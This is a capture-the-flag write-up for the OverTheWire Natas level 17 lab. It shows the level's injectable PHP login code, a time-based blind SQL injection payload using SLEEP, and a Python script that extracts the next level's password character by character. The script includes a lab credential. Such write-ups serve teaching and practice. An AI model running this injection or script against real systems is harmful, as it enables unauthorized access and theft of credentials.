 ``` php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?> 
```

We know the database is vulnerable, but nothing is displayed to the screen, because the *echo* statements are commented out. So we're going in blind! To determine if the database returns True or False to our query, we can use time-based SQL injection, by making the database load longer if our query is true, and normal if not. I tested it with this injection string: <code>natas18" AND SLEEP(5)-- </code>. As expected, since the user natas18 exists, the page took 5 seconds to load. When the username didn't exist, it loaded instantly. So the sleep function is executed if the previous part of the query was true, but not if it's false. With this in mind, I modified the Python script I used before:

``` python
import requests

passwd = ""
testchars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
index = 0
while index < len(testchars):
    query = {'username': 'natas18" and password like binary ' + '"' + passwd + testchars[index] + '%" ' + 'and sleep(15)-- ', 'submit': 'Check existence'}
    try:
        guess = requests.post('http://natas17.natas.labs.overthewire.org/', \
                          auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'),\
                          params = query, \
                          timeout=10) # how many seconds to wait for a response
    except requests.Timeout:
        passwd += testchars[index]
        print 'Password: ', passwd
        index = 0
        continue
    index += 1
print 'Done! Password is ', passwd
```